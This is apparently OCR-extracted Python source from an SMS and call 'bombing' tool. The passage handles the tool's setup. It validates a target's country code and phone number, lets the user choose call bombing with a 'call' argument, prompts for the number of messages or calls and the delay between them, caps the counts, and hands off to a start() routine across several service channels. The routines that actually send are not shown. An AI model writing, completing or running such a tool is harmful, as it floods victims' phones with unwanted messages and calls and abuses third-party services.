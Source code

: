     if len(cc) >= 4 or len(cc) < 1:
        print('\n\nInvalid Country Code..\n\t\tCountry Codes Are Generally 1-3 digits...\n')
        continue
    if len(pn) <= 6:
        print('\n\nInvalid Phone Number..\n')
        continue
    for cch in str(cc + pn):
        if not cch.isdigit():
            print('\n\nPhone Number Must Consist Of Numbers Only\n')
            continue
    break
type = 0
try:
    if sys.argv[1] == "call":
        type = 1
except Exception:
    type = 0
if type == 1:
    nm = int(input("Enter Number of Calls To Send(Maximum 15): "))
    if nm > 15:
        print("\t\tYou Have Entered " + str(nm) +
              ".\n\tNormalizing Value To 15")
        nm = 15
    dl = float(input("Enter Delay time (in seconds) [Recommended 10 sec ] : "))
elif type == 0:
    if cc == "91":
        nm = int(input("Enter Number of Messages To Send(0 For Unlimited): "))
        dl = float(
            input("Enter Delay time (in seconds) [Recommended 2 sec ] : "))
    else:
        nm = int(input("Enter Number of Messages To Send: "))
        dl = float(
            input("Enter Delay time (in seconds) [Recommended 10 sec ] : "))
maxlim = 0
if cc == "91":
    maxlim = 500
else:
    maxlim = 100
if nm > maxlim:
    print('\n\n\tSorry Due To Misuse Of This Script We Only Provide ' +
          str(maxlim) + ' SMS At Once...\n\n')
    print('Number Of SMS Has been Set To ' + str(maxlim))
    nm = maxlim
if not cc.strip() == "91":
    if type == 1:
        print(
            '\t\tSorry But Call Bombing is Currently Supported Only For Indian Numbers!!!!')
        print()
        input('Press Enter To Exit....')
        print('\n\n')
        banner()
        exit()
    cnt = 0
    if pn.strip() == '' or dl <= 0 or nm <= 0 or cc.strip() == '' or cc.find('+') != -1:
        print('\n\n\tSeems Like You Have Given Wrong Inputs...')
        input('\n\t\tPress Enter To Exit...')
        banner()
        exit()
    ch = [0, 14, 15, 16]
    start(pn, nm, dl, ch, str(cc))
    exit()
ch = [i for i in range(17)]
cbomb = False
if pn.strip() == '' or dl <= 0 or nm < 0:
